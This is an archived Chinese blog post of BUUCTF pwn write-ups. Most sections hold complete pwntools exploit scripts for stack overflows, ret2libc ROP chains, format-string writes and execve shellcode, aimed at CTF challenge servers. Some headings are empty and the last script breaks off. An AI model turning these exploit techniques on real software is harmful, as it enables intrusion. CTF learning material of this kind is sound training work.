<!--yml
category: 未分类
date: 2022-04-26 14:29:48
-->

# ”BUUCTF之pwn题解（一些栈题+程序分析）_swedsn的博客-CSDN博客_buuctf pwn

> 来源：[https://blog.csdn.net/qq_51032807/article/details/112545011](https://blog.csdn.net/qq_51032807/article/details/112545011)

# 前言

以前是照着题解做的，现在重新做一遍，发现存在许多问题。

**题型专栏：**

（1）[PWN题型之Ret2libc](https://blog.csdn.net/qq_51032807/article/details/114808339?spm=1001.2014.3001.5501)

（2）[PWN题型之对抗Canary保护技术](https://blog.csdn.net/qq_51032807/article/details/119172019?spm=1001.2014.3001.5502)

（3）[PWN题型之栈迁移](https://blog.csdn.net/qq_51032807/article/details/119211154?spm=1001.2014.3001.5502)

# 0x01 ：test_your_n

程序分析：**<font>64位程序，没有开启任何保护</font>**。打开IDA，查看一下源代码


程序分析：main函数中只存在system("/bin/sh")函数，所以nc可直接拿到权限。nc（ip + 端口号）

# 0x02 ：rip

程序分析：**<font>64位程序，没有开启任何保护</font>**。打开 IDA，查看一下源代码

代码分析：函数很简单，就一个puts函数输出，然后gets函数输入到s当中，用puts函数输出出来。

程序关键：存在gets函数，由于存在两个参数，准确来说是gets_s函数。（具体的请自行百度）

gets_s（buffer,size）函数：从标准输入中读取数据，size表示的最多读取的数量，在这里是argv，没有定义是多大，所以我们就可以无限的输入。但是可以发现buffer就只有0xF字节的大小，输入超过0xF个字节以后，你就会溢出，你会覆盖返回地址。所以如果你先填充字节，然后修改掉返回地址就可以调转到你想要跳转的地方。


存在溢出条件，接下来就是要找后门函数地址了。（为什么/bin/sh在前面，因为64位先传参数，其次找函数的地址就是找system函数以及它的参数）


发现system（“/bin/sh"）函数地址，只要我们能控制程序返回到0x40118A，就可以得到系统的shell了

做题思路总结：
利用gets_s函数的不限制输入的多少，先填充字节，然后将返回地址修改为自己想要跳转的地址，即可获得flag。

（5）exp：

```
# coding: utf-8    #python2.7中文注释
from pwn import  *  #调用pwntools库

r = remote('node3.buuoj.cn',27542)     #远程连接

offset = 0xF + 8    #偏移量
payload = offset * 'a' + p64(0x0040118A)  #漏洞利用

r.sendline(payload)		#发送漏洞
r.interactive()		#远程交互 
```

# 0x03 ：warmup_csaw_2016

程序分析 ：**<font>32位程序，没有开启任何保护</font>**。打开 IDA，查看一下源代码。

代码分析：俩个write函数输出，然后sprintf函数利用%p将sub_40060函数地址（其实就是system函数）打印出来放到s里面，然后由write函数打印出来，由于是64位所以write那是9，

很容易发现了 gets函数，显然存在溢出条件，再查看是否存在后门函数。


发现了cat flag，只要我们能控制程序返回到0x000400611，就可以得到flag了。

下面就是找到偏移量，易得为0x40+8


.
这里与 第二题唯一不同 的就是 第二题是 拿到shell，而第三题是 得到一个命令 cat flag。

exp：

```
# coding: utf-8
from pwn import *

r = remote('node3.buuoj.cn',29469)

offset = 0x40+8
payload = offset*'a' + p64(0x000400611)

r.sendline(payload)
r.interactive() 
```

# 0x04 ：pwn1_sctf_2016

程序分析：**<font>32位程序，只开启了NX保护</font>**，然后打开 IDA， 查看一下源代码

代码分析 ：首先是一个fgets函数，从文件edata里面打印32个字节的内容到s里面，s可能存储0x3c（60）个字节，没有问题，之后就是一系列的c++语言了，(C++我也没有学，不是很懂)。大概意思就是会将 I 变成 you，这样就20个就等价于20个you这样就有60个字节了，这样就可以造成溢出了

运行 一下 程序，果然如此。

```
muggle@muggle-virtual-machine:~/CTF-Pwn/BUUCTF/pwn1_sctf_2016（栈溢出，I 变成 you）$ ./pwn
Tell me something about yourself: I I I I I 
So, you you you you you 
```

找到溢出条件后就要考虑偏移量和返回地址了



exp：

```
# coding: utf-8
from pwn import *

r = remote('node3.buuoj.cn',26208)

offset = 20    # fgets最多32位
payload = offset*'I' +'aaaa'+ p32(0x08048F13)   
 # 20个‘I’ -> 20个 ‘you’ 就会有60个字节，就会覆盖到ebp，然后再加上4字节，覆盖到返回地址。

r.sendline(payload)
r.interactive() 
```

.

.

# 0x05 ：ciscn_2019_n_1

程序分析 ：**<font>64位程序，只开启了NX保护</font>** 。然后打开IDA，查看一下程序源代码



程序分析：有一个gets函数输入v1的值，但是判断的却是v2是否与11.28125相等，只有相等就直接可以获得权限，所以要想办法绕过。

法一 ：可以发现的是存在gets函数，加上本题没有开启canary保护，只要能找到cat flag地址就可以直接栈溢出到返回地址。

法二 ：可以发现大小 v1<v2，gets函数 不限制 输入多少，所以它从30一直往下填充到返回地址，所以我们只要向下填充至v2时，然后将v2的内容 改成11.28125 就可以了。注意11.26125要改成16进制，这个在IDA中可以找到。

```
-0000000000000030 var_30          db ?
-000000000000002F                 db ? ; undefined
-000000000000002E                 db ? ; undefined
-000000000000002D                 db ? ; undefined
-000000000000002C                 db ? ; undefined
-000000000000002B                 db ? ; undefined
-000000000000002A                 db ? ; undefined
-0000000000000029                 db ? ; undefined
-0000000000000028                 db ? ; undefined
-0000000000000027                 db ? ; undefined
-0000000000000026                 db ? ; undefined
-0000000000000025                 db ? ; undefined
-0000000000000024                 db ? ; undefined
-0000000000000023                 db ? ; undefined
-0000000000000022                 db ? ; undefined
-0000000000000021                 db ? ; undefined
-0000000000000020                 db ? ; undefined
-000000000000001F                 db ? ; undefined
-000000000000001E                 db ? ; undefined
-000000000000001D                 db ? ; undefined
-000000000000001C                 db ? ; undefined
-000000000000001B                 db ? ; undefined
-000000000000001A                 db ? ; undefined
-0000000000000019                 db ? ; undefined
-0000000000000018                 db ? ; undefined
-0000000000000017                 db ? ; undefined
-0000000000000016                 db ? ; undefined
-0000000000000015                 db ? ; undefined
-0000000000000014                 db ? ; undefined
-0000000000000013                 db ? ; undefined
-0000000000000012                 db ? ; undefined
-0000000000000011                 db ? ; undefined
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008                 db ? ; undefined
-0000000000000007                 db ? ; undefined
-0000000000000006                 db ? ; undefined
-0000000000000005                 db ? ; undefined
-0000000000000004 var_4           dd ?
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?) 
```

11.28125的十六进制：

（4）exp(1)：

```
# coding: utf-8
from pwn import *

r = remote('node3.buuoj.cn',29337)

offset = 0x30 + 8
payload = offset*'a' + p64(0x000004006BE )    #直接gets函数溢出，然后修改返回地址

r.sendline(payload)
r.interactive() 
```

exp（2）:

```
# coding: utf-8
from pwn import *

r = remote('node3.buuoj.cn',29337)

offset = 0x30 -0x4
payload = offset*'a' + p64(0x41348000)
#利用gets函数不限制输入多少，先填充v1，然后v2 = 11.28125.
#这里的11.28125要转换成16进制，这个可以在IDA里找到。
r.sendline(payload)
r.interactive() 
```

# 0x06 ：jarvisoj_level0

程序分析：**<font>64位程序，只开启了NX保护</font>**。打开IDA，查看一下源程序


代码分析 ：就一个write函数和rea函数。可以发现read函数（这里buf只有0x80字节，而read需要从buf中读取0x200个字节），存在溢出条件。然后找是否存在后门函数

找到了system，是简单的栈溢出，找到偏移量为0x80+8，然后覆盖返回地址就可以了

exp：

```
# coding: utf-8
from pwn import *

r = remote('node3.buuoj.cn',26896)

offset = 0x80 + 8
payload = offset*'a' + p64(0x400596)

r.sendline(payload)
r.interactive() 
```

# 0x07 ：ciscn_2019_c_1

程序分析 ：**<font>64位程序，只开启了NX保护</font>**。打开IDA，查看一下源代码。


首先可以看到，我们只能输入1，输入2会一直在菜单里面循环，而输入其他的数值会直接退出去。打开encrypt函数



存在gets函数，但是它不能直接溢出，因为后面的while循里有s[x] ^= 0xFu系列，这样导致你输入的s的数值发生了变化，你输入的payload就会改变。为了避免执行循环，要在payload最前面加入‘\0’，这和strlen函数有关，strlen函数遇到‘\0’就会停止，这样值为0.，而v0 = x，x为无符号整型大于等于0，所以判断为真就能避免执行while循环。

payload：

> offset = 0x50 + 8 - 1
> payload1 = ‘\0’+ offset*‘a’ + p64(rdi_addr_ret) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(main_addr)
> r.sendline( payload1)

找到溢出条件以后，就是找后门函数了，不存在又开启了nx保护，libc泄露地址。

exp ：

```
from pwn import*

r = remote("node4.buuoj.cn",27306)

context(log_level = 'debug')
e = ELF("./pwn")
libc = ELF("./libc-2.27.so")

puts_plt_addr = e.plt["puts"]
puts_got_addr = e.got["puts"]
main_addr = e.symbols["main"]
rdi_addr = 0x0000000000400c83

r.sendline("1")

offset = 0x50 + 8-1
payload = '\0' + offset * 'a' + p64(rdi_addr) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(main_addr)
r.recvuntil("Input your Plaintext to be encrypted\n")
r.sendline(payload)

puts_addr = u64(r.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
print(hex(puts_addr))

base_addr = puts_addr - libc.symbols["puts"]
system_addr = base_addr + libc.symbols["system"]
binsh_addr = base_addr + libc.search("/bin/sh").next()
ret_addr = 0x4006B9

r.sendline("1")
payload2 = '\0' + offset * 'a' + p64(ret_addr) + p64(rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(1)
r.recvuntil("Input your Plaintext to be encrypted\n")
r.sendline(payload2)

r.interactive() 
```

# 0x08 : OGeek2019]babyrop

程序分析：**<font>32位程序，只开启了NX保护</font>**。打开IDA，查看源代码
可以发现read函数，从/dev/unandom 目录下的fd文件中读取四字节的内容。（随机数）

接着可以看到三个主要函数，打开第一个没有发现什么，打开第二个71F函数

发现存在read函数，也没有达到溢出条件，存在strncmp函数，两者进行比较，由于一个是随机生成的数组，那必然不会相等，而只要不是0就会执行if，然后就会退出程序。所有就要么修改随机数值要么就让比较的字符串为0（第三个参数值为0）。


而在此之前，我们能做的就是输入buf的内容，根据strlen函数的性质，buf只要最开始输入的就是’\0’就会直接退出去，这样v1就为0，就不会进行strcmp比较。


然后就是返回值是buf[7] = v2，然后作为参数传给_7D0函数,再看第三个函数

又是两个read函数，第一个read明显可能不可能溢出。但是第二个却是有可能：因为a1是参数是由v2传进来的，而v2等于上一个函数的返回值，即a1 = v2 = buf[7]，而buf是由我们写入的。只要buf第八个数值足够大就可以使得read函数溢出。

构造payload：

```
payload1 = '\x00' + 'a'*6 + '\xFF'
目的：前面防止执行函数2的if执行，后者覆盖造成函数3的第二个read函数溢出 
```

找到了溢出条件，接下来就是找后门地址了。可以发现不存在。而且开启了NX保护，这就要使用libc泄露system·函数了
不懂libc有关题可以去看我的：[https://blog.csdn.net/qq_51032807/article/details/114808339](https://blog.csdn.net/qq_51032807/article/details/114808339)。写的不咋地，但希望有点用

exp ：

```
from pwn import *

r = remote("node4.buuoj.cn",29036)

libc = ELF('./libc-2.23.so')
e = ELF("./pwn")

context(log_level = 'debug')

write_plt_addr = e.plt["write"]
write_got_addr = e.got["write"]
sub_080487D0 = 0x080487D0

payload1 = '\0' + 'a'*6 + '\xff'
r.sendline(payload1)

offset = 0xE7 + 4
payload2 = offset*'a' + p32(write_plt_addr) + p32(sub_080487D0) + p32(1) + p32(write_got_addr) + p32(4)

r.recvuntil("Correct\n")
r.sendline(payload2)
write_addr = u32(r.recv(4))
print(hex(write_addr))

base_addr = write_addr - libc.symbols['write']
system_addr = base_addr + libc.symbols['system']
binsh_addr = base_addr + libc.search('/bin/sh').next()

payload3 = offset * 'A' + p32(system_addr) + p32(1) + p32(binsh_addr)
`
r.sendline(payload3)
r.interactive() 
```

# 0x09 ：第五空间2019 决赛]PWN5

程序分析：**<font>32位程序，开启了canary保护和NX保护</font>**。打开IDA，查看一下源代码

存在格式化字符串漏洞，利用它任意写的特点。将随机数改成一个常数，然后输入这个常数就能获得flag了。

做这种题首先是要确定格式化字符串的位置

```
muggle@muggle-virtual-machine:~/CTF-Pwn/BUUCTF/[第五空间2019 决赛]PWN5$ ./pwn
your name:aaaa -%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
Hello,aaaa -0xff947738-0x63-(nil)-0xf7f0da9c-0x3-0xf7ee0410-0x1-(nil)-0x1-0x61616161-0x70252d20-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70 
```

可以发现格式化字符串在第十个

exp ：

```
from pwn import*

r = remote('node3.buuoj.cn',26019)

addr = 0x804c044
payload = p32(addr) + p32(addr+1) + p32(addr+2) + p32(addr+3) + '%10$n%11$n%12$n%13$n'

r.recvuntil("your name:")
r.sendline(payload)

r.recvuntil("your passwd:")
r.sendline(str(0x10101010))

r.interactive() 
```

# 0xA ：get_started_3dsctf_2016**

程序分析：**<font>32位程序，开启了NX保护</font>**。打开IDA，查看一下源代码

存在gets函数 存在溢出条件，但是gets函数里面一大串内容，那必然没有那么简单，函数很乱没看懂。于是先暂时不管它

后面本地调试发现可以通过而远程连接却不行。有大佬说是：由于这题没有出现setbuf(stdin，0)，所以本题的输出是缓存在服务器本地的，换句话说：如果程序不正常退出，本题是不会回显flag的。

存在溢出条件，接下来就是寻找后门函数了


存在“flag.txt”文件，并且后门的是rt

所以只要先溢出，然后修改返回值跳到该函数，修改两个参数a1和a2，就可以活得flag了，而远程的话需要添加一个exit地址强制退出程序。
exp :

```
from pwn import *

r = remote("node3.buuoj.cn",28191)

offset = 0x38
exit_addr = 0x0804E6A0
flag_addr = 0x080489A0
a1 = 814536271
a2 = 425138641

payload = offset*'a' + p32(flag_addr) + p32(exit_addr) + p32(a1) + p32(a2)

r.sendline(payload)

r.interactive() 
```

注意：一般我们都是直接用ida里面的偏移量，但是有时候这个是错的，所以需要我们用gdb来查看。我用的是peda插件（里面的偏移量是达到ret的）：


# 0xB ：ciscn_2019_en_2

这道题和 第七题的ciscn_2019_c_1 一模一样，直接cv脚本就可以了。

# 0xC ：ciscn_2019_n_8

程序分析：**<font>32位程序，开启了NX和canary保护</font>**。打开IDA，查看一下源代码

首先就发现了system（/bin/sh）函数，看看条件：只有var【13】 = 17就可以了。而看前面的scanf就可以向var数组输入。我们只要将var这个数组里全部填上17即可。至于后面的两个参数我觉得应该是ida编译问题。
exp：

```
from pwn import *

r = remote("node3.buuoj.cn",27763)

payload = p32(17)*14

r.sendline(payload)
r.interactive() 
```

# 0xD : jarvisoj_level2

程序分析：**<font>32位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码

发现存在read函数，存在溢出。又看到了system函数，但是缺少/bin/sh参数，寻找是否存在。


找到了system函数，/bin/sh参数，以及溢出条件。明显栈溢出

exp ：

```
from pwn import *

r = remote("node3.buuoj.cn",28984)

offset = 0x88 + 4 
binsh_addr = 0x0804A024
system_addr = 0x0804845C
payload = offset*'a' + p32(system_addr) + p32(binsh_addr)

r.sendline(payload)
r.interactive() 
```

# 0xE ：not_the_same_3dsctf_2016

程序分析：**<font>32位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码


可以发现gets函数，明显存在溢出条件。但是打开gets函数里面很复杂（感觉不简单）。再查看一下后门函数


可以发现和get_started_3dsctf_2016类似，差别就是这道题没有读取文件的命令所以需要你用write函数将这个文件打印出来。

```
from pwn import *

r = remote("node3.buuoj.cn",26387)

offset = 0x2D
get_flag_addr = 0x080489A0
write_addr = 0x0806E270
eixt_addr = 0x0804E660
flag_addr = 0x080BC2A8

payload = offset*'a' + p32(get_flag_addr) + p32(write_addr) + p32(eixt_addr)+ p32(1) + p32(flag_addr) + p32(0x100) 
r.sendline(payload)
r.interactive() 
```

exp分析：

> payload = offset*‘a’ + p32(get_flag_addr) + p32(write_addr) + p32(eixt_addr)+ p32(1) + p32(flag_addr) + p32(0x100)

先填充完字节后跳到get_secret函数里面（里面有flag文件）。然后用write函数读取flag文件（因为他只是一个文件，没有cat读取）。然后exit函数（因为这道题没有setbuf(stdin，0)，所以本题的输出是缓存在服务器本地的，即程序不能正常退出）。接下来就是write函数的三个参数。第二个为要读取内容。

# 0xF ：bjdctf_2020_babystack

程序分析：**<font>64位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码

首先scanf输入nbytes的值，然后再是输入read函数，而scanf输入的正好是read的第三个参数。只要输入大于0x10+8就能覆盖返回地址了。找到溢出条件。

在backdoor函数里面存在system函数。找到溢出条件，system函数，构造exp
exp ：

```
from pwn import *

r = remote("node3.buuoj.cn",27749)

r.recvuntil("[+]Please input the length of your name:\n")
r.sendline('100')

offset = 0x10 + 8
system_addr = 0x004006E6
payload = offset*'a' + p64(system_addr)
r.recvuntil("[+]What's u name?\n")
r.sendline(payload)
r.interactive() 
```

# 0x10 ：[HarekazeCTF2019]baby_rop

程序分析：**<font>64位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码

只有一个scanf输入v4的值，scanf不限制输入，再查看字符串，看看是否存在后门函数地址。
发现了system函数和字符串/bin/sh

payload：
利用gadget传入字符串并调用system函数（即利用ret指令，进行各种调转，由于这是64位先进行寄存器传参，再是binsh参数，最后才是sytem函数地址，还可以加一个预留返回地址）

> payload = offset * ‘a’ + p64(rdi_addr) + p64(binsh_addr) + p64(system_addr)

exp ：

```
from pwn import *

r = process("./pwn")

system_addr = 0x000400490
binsh_addr = 0x0000601048
rdi_addr = 0x0000000000400683

offset = 0x10 + 8
payload = offset * 'a' + p64(rdi_addr) + p64(binsh_addr) + p64(system_addr)
r.recvuntil("? ")
r.sendline(payload)
r.interactive() 
```

不过到现在还是不知道为啥本地跑不通，远程可以跑通。

# 0x11 ：jarvisoj_level2_x64

程序分析：**<font>64位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码

显然可以发现system函数，但是没有/bin/sh 参数，存在read函数，明显溢出了，然后找找是否存在/bin/sh参数

存system（/bin/sh）,溢出条件，没有开启canary保护。直接溢出覆盖返回地址。但是这是64位，与32位存在差别。64位的传参顺序不同

exp ：

```
from pwn import *

r = remote("node3.buuoj.cn",26005)

offset = 0x80 + 8 
binsh_addr = 0x600A90
system_addr = 0x4004c0
payload = offset*'a' + p64(0x4006b3) + p64(binsh_addr) + p64(system_addr)

r.sendline(payload)
r.interactive() 
```

# 0x12 ：ciscn_2019_n_5

程序分析：**<font>64位程序，没有开启任何保护</font>**，打开 IDA， 查看伪代码

代码分析：存在read函数输出你的名字，存在gets函数明显栈溢出。shift + f12查看是否存在后门函数

没有system函数，由于这道题没有开启NX保护，

1.可以直接构造shellcode（与system函数作用类似）。shellcode = asm（shellcraft.sh()光构造出来了还不行，需要你存放在一个地址上。而前面你需要输入你的名字，而name的地址在bss段，永远不会变，即输入name时将构造的shellcode存放里面


2.直接利用libc泄露system函数，不过这道题没有开启NX保护，这样写倒是麻烦了一些。

exp ：

```
 from pwn import *

context(arch = "amd64",os = "linux")

r = remote("node3.buuoj.cn",25342)

shellcode = "\x48\x31\xc9\x48\xf7\xe1\x04\x3b\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

r.recvuntil("tell me your name")
r.sendline(shellcode)  

offset = 0x20 + 8  
payload = offset*'a' + p64(0x601080)

r.recvuntil("What do you want to say to me?")
r.sendline(payload)

r.interactive() 
```

# 0x13 ：ciscn_2019_ne_5

程序分析：**<font>32位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码

可以发现在main处按f5无法打开反汇编。这样的话你多点击一下其他函数，然后f5就可以看了

首先可以看到第一个scanf要输入administrator，否则就会直接退出。
然后又是一个scanf函数输入，这下面有五种case，一一打开case里面的函数。可以发现重点是1和4。

在case1函数下面存在scanf函数，根据 `AddLog((int)src);` 可知传入的参数为scr，a1 = src。避免混淆你可以按n将a1改为src。在这里你可以写入scr的内容

接着打开GetFlag函数，可以发现存在strcpy函数。

根据前面可知：src的大小和内容其实是由我们自己控制的，这样的话只要我们输入的字符串够大（大于0x48+4）就会造成strcpy函数溢出。所以直接在1里面构造payload

整合起来其实就是输入src，然后造成strcpy函数溢出

注意 ：break只是结束当前的一次循环，所以case1以后只会结束switch循环，不会结束while循环，而while（1）一直成立，所以它会继续让你选择case，但是你修改返回地址以后就停止了。

找到溢出条件以后，找后门地址。


```
muggle@muggle-virtual-machine:~/CTF-Pwn/other$ ROPgadget --binary ./pwn --string "sh"
Strings information
============================================================
0x080482ea : sh 
```

exp ：

```
from pwn import *

r = remote("node3.buuoj.cn",27773)

r.recvuntil("Please input admin password:")
r.sendline("administrator")

r.recvuntil("0.Exit\n:")
r.sendline("1")

offset = 0x48 + 4
system_addr = 0x080486B9
sh_addr = 0x080482ea
payload = offset*'a' + p32(system_addr) + p32(sh_addr)

r.recvuntil("Please input new log info:")
r.sendline(payload)

r.recvuntil("0.Exit\n:")
r.sendline("4")

r.interactive() 
```

# 0x14 : 铁人三项(第五赛区)_2018_rop

程序分析：**<font>32位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码

存在read函数溢出，接下来查看是否存在后门地址
没有发现，由于开启了NX保护，这是一道基本的libc题

```
from pwn import *

r = remote("node3.buuoj.cn",27639)

e = ELF("./pwn")

write_plt_addr = e.plt["write"]
write_got_addr = e.got["write"]
read_got_addr = e.got["read"]
main_addr = e.symbols["main"]

offset = 0x88 + 4
payload1 = offset*'a' + p32(write_plt_addr) + p32(main_addr) + p32(1) + p32(write_got_addr) + p32(4)

r.sendline(payload1)
write_addr = u32(r.recv(4))
print(hex(write_addr))

write_offset = 0x0e56f0
system_offset = 0x03cd10
binsh_offset = 0x17b8cf

base_addr = write_addr - write_offset
system_addr = base_addr + system_offset
binsh_addr = base_addr + binsh_offset

payload2 = offset*'a' + p32(system_addr) + p32(1) + p32(binsh_addr)

r.sendline(payload2)
r.interactive() 
```

# 0x15 : others_shellcode

程序分析：**<font>32位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码

存在execve，11，int 80h等字眼，感觉就像是系统调用system函数。

查看一下汇编代码，果然是这样，既然直接调用了system函数，那么直接nc就可以获得flag了。不过由于使用汇编语言写的，可能就没那么容易理解了。

# 0x16 : bjdctf_2020_babyrop

程序分析：**<font>64位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码

在vuln函数里面存在read函数，存在溢出条件，然后找是否存在后门地址

没有存在system函数，由于开了了NX保护，使用libc泄露
exp :

```
from pwn import *

r = remote("node4.buuoj.cn",25560)

e = ELF("./pwn")
libc = ELF("./libc-2.23.so")
context(log_level = 'debug')

puts_plt_addr = e.plt["puts"]
puts_got_addr = e.got["puts"]
main_addr = e.symbols["main"]
rdi_addr = 0x0000000000400733

offset = 0x20 + 8
payload1 = offset * 'a' + p64(rdi_addr) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(main_addr)
r.recvuntil("Pull up your sword and tell me u story!\n")
r.sendline(payload1)

puts_addr = u64(r.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
print(hex(puts_addr))

base_addr = puts_addr - libc.symbols["puts"]
system_addr = base_addr + libc.symbols["system"]
binsh_addr = base_addr + libc.search("/bin/sh").next()

payload2 = offset*'a' + p64(rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(1)
r.sendline(payload2)

r.interactive() 
```

# 0x17 : pwn2_sctf_2016

程序分析：**<font>32位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码

代码分析：首先get_n函数输入nptr的值，四个字节，然后atoi将nptr转换为整数型，不过输入的整数不能大于32，不然就会强制退出，然后又是get函数输入，大小是v2，而nptr只能存储0x2C个字节。v2是由我们自己输入的，那是不是可以将v2大小写大一点，然后后一个get函数溢出呢？但是考虑到v2最大只能是32又不行，这个时候就要考虑atoi函数了。


这个函数的作用大概就是把最前面的数字截取出来，如果最开始是字符则返回值直接为0，如果是数字的话则返回该数字，返回值为整数型，说明可以是为负数。这样的话由于在get函数里面会强制转换成正数，主要我们只要输入一个负数，它既满足大小小于32，又能导致后一个get函数溢出。


通过运行一下程序看看是不是会强制转换：

```
muggle@muggle-virtual-machine:~/CTF-Pwn/other$ ./pwn
How many bytes do you want me to read? -1
Ok, sounds good. Give me 4294967295 bytes of data!
^Z
[53]+  已停止               ./pwn

muggle@muggle-virtual-machine:~/CTF-Pwn/other$ ./pwn
How many bytes do you want me to read? aaaa
Ok, sounds good. Give me 0 bytes of data!
aa
You said: 

muggle@muggle-virtual-machine:~/CTF-Pwn/other$ ./pwn
How many bytes do you want me to read? 1234
No! That size (1234) is too large!
muggle@muggle-virtual-machine:~/CTF-Pwn/other$ ./pwn
How many bytes do you want me to read? -1
Ok, sounds good. Give me 4294967295 bytes of data! 
```

果然-1会变成4294967295，找到了溢出条。接下来我们寻找发现不存在system函数。需要利用libc泄露system地址了。

exp ：

```
from pwn import *

r = remote("node4.buuoj.cn",28604)

e = ELF("./pwn")

libc = ELF("./libc-2.23.so")
context(log_level = 'debug')

printf_plt_addr = e.plt["printf"]
printf_got_addr = e.got["printf"]
main_addr = e.symbols["main"]
format_addr = 0x080486F8

r.recvuntil("How many bytes do you want me to read? ")
r.sendline("-1")

offset = 0x2C + 4
payload = offset * 'a' + p32(printf_plt_addr) + p32(main_addr) + p32(format_addr) + p32(printf_got_addr)
r.recvuntil("of data!\n")
r.sendline(payload)

printf_addr = u32(r.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
print(hex(printf_addr))

base_addr = printf_addr - libc.symbols["printf"]
system_addr = base_addr + libc.symbols["system"]
binsh_addr = base_addr + libc.search("/bin/sh").next()

r.recvuntil("How many bytes do you want me to read? ")
r.sendline("-1")

payload1 = offset * 'a' + p32(system_addr) + p32(main_addr) + p32(binsh_addr)
r.recvuntil("bytes of data!\n")
r.sendline(payload1)
r.interactive() 
```

注意点：
1.由于这里没有write，puts函数，所以我用的是printf函数泄露，而printf函数的第一个参数格式化字符串，所以需要找到一个带有%s的地址。

> payload = offset * ‘a’ + p32(printf_plt_addr) + p32(main_addr) + p32(format_addr) + p32(printf_got_addr)

2.由于recv接收的时候并不是最开始的四个字节，所以需要改写接收方式。这个是我自己调试试出来的，需要接受四个字节，可能会有其他简写方法。

> printf_addr = u32(r.recvuntil("\xf7")[-4:].ljust(4,"\x00"))

# 0x18 ：jarvisoj_fm

程序分析：**<font>32位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码


可以明显的看到格式化字符串漏洞，并且当x等于4时就可以获得权限。所以这道题的思路就是利用格式化字符串漏洞的任意写功能修改x的值为4。

exp：

```
from pwn import *

r = remote("node4.buuoj.cn",25852)

addr = 0x0804A02C

payload1 = fmtstr_payload(11,{addr:0x4}

r.sendline(payload1)

r.sendline("cat ./flag")
r.interactive() 
```

# 0x18 ：ciscn_2019_s_3

# 0x1A ：ciscn_2019_es_2

# 0x1B ：ez_pz_hackover_2016

# 0x1C ：jarvisoj_level3

程序分析：**<font>32位程序，开启了NX保护</font>**，打开 IDA， 查看一下伪代码
可以发现存在read函数溢出，查看是否存在后门函数。发现并不存在，利用libc泄露system函数地址。
exp:

```
from pwn import *

r = remote("node4.buuoj.cn",26272)

libc = ELF("./libc-2.23.so")
e = ELF("./pwn")
context(arch = 'i386',os = 'linux',log_level = 'debug')

write_plt_addr = e.plt["write"]
write_got_addr = e.got["write"]
main_addr = e.symbols["main"]

offset = 0x88 + 4
payload1 = offset*'a' + p32(write_plt_addr) + p32(main_addr) + p32(1) + p32(write_got_addr) + p32(4)

r.recvuntil("Input:\n")
r.sendline(payload1)

write_addr = u32(r.recv(4))
print(hex(write_addr))

base_addr = write_addr - libc.symbols["write"]
system_addr = base_addr + libc.symbols["system"]
binsh_addr = base_addr + libc.search("/bin/sh").next()

payload2 = offset*'a' + p32(system_addr) + p32(main_addr) + p32(binsh_addr)
r.recvuntil("Input:\n")
r.sendline(payload2)

r.interactive() 
```

# 0x1D ：HarekazeCTF2019]baby_rop2

程序分析：**<font>64位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码

存在read函数溢出，再查看是否存在后门地址。没有发现system函数，利用libc泄露system函数了

注意：

（1）这里是用printf来打印泄露read函数的真正地址，这里泄露printf函数是不行的。printf泄露的话要注意第一个是格式化字符串，所以你首先须要在ida里面找到一个带有%s格式化字符串的地址。
（2）找某个文件名的方法

> find -name “flag”

exp：

```
from pwn import *

r = remote("node4.buuoj.cn",25038)

e = ELF("./pwn")
libc = ELF("./libc.so.6")
context(log_level = 'debug')

printf_plt_addr = e.plt["printf"]
read_got_addr = e.got["read"]
main_addr = e.symbols["main"]
format_addr = 0x0000000000400770
rdi_ret_addr = 0x0000000000400733
rsi_r15_ret_addr = 0x0000000000400731

offset = 0x20 + 8
payload1 = offset*'a' + p64(rdi_ret_addr) + p64(format_addr) + p64(rsi_r15_ret_addr) + p64(read_got_addr) + p64(1) + p64(printf_plt_addr) + p64(main_addr)
r.recvuntil("What's your name? ")
r.sendline(payload1)

read_addr = u64(r.recvuntil("\x7f")[-6:].ljust(8,'\x00'))
print(hex(read_addr))

base_addr = read_addr - libc.symbols["read"]
system_addr = base_addr + libc.symbols["system"]
binsh_addr = base_addr + libc.search("/bin/sh").next()

payload2 = offset*'a' + p64(rdi_ret_addr) + p64(binsh_addr) + p64(system_addr) + p64(1)
r.recvuntil("What's your name? ")
r.sendline(payload2)

r.interactive() 
```

# 0x1E ：[Black Watch 入群题]PWN

详细请看 ： [栈迁移](https://blog.csdn.net/qq_51032807/article/details/119211154?spm=1001.2014.3001.5502)

程序分析：**<font>32位程序，开启了NX保护</font>**，打开 IDA， 查看一下源代码

可以发现read函数构成溢出条件，但是其大小只能刚刚好覆盖返回地址。只于后面的参数之类的地址却缺少了空间。

对于这种情况，师傅们采用了栈迁移的方法，类似扩充大小。将剩下未写入的放在其他空间中。具体的请自行百度（毕竟我还不是完全弄懂）

接下来就是找后门函数，可以发现这题没有。所以用libc泄露system函数地址。

exp ：

```
from pwn import *

r = remote('node3.buuoj.cn',28163)

e = ELF('./pwn')
context.arch = e.arch

